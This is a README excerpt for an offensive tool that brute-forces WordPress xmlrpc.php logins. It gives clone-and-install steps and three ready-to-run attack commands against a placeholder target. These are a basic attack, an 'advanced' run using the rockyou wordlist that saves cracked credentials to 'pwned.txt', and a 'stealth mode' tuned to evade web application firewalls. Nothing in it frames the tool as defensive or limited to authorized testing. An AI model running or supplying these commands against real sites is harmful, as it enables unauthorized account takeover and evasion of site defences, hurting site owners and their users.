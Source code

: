 ```bash
# Clone the repository
git clone https://github.com/henriqqw/caosdev-xmlrpc-brute.git

# Navigate to directory
cd caosdev-xmlrpc-brute

# Install dependencies
pip3 install requests

# Run the tool
python3 xmlrpc_caosbrute.py --help
```

### Requirements

```python
Python >= 3.7
requests >= 2.25.0
```

---

## ⚡ Usage

### 🎯 Basic Attack

```bash
python3 xmlrpc_caosbrute.py https://target.com/xmlrpc.php \
  -u admin \
  -w wordlist.txt
```

### 🔥 Advanced Attack

```bash
python3 xmlrpc_caosbrute.py https://target.com/xmlrpc.php \
  -u admin \
  -w rockyou.txt \
  --stop-on-success \
  --verbose \
  -b 100 \
  -d 0.3 \
  -t 20 \
  -o pwned.txt
```

### 🛡️ Stealth Mode (Evade WAF)

```bash
python3 xmlrpc_caosbrute.py https://target.com/xmlrpc.php \
  -u admin \
  -w wordlist.txt \
  -b 25 \
  -d 2 \
  -t 30 \
  --verbose
```

---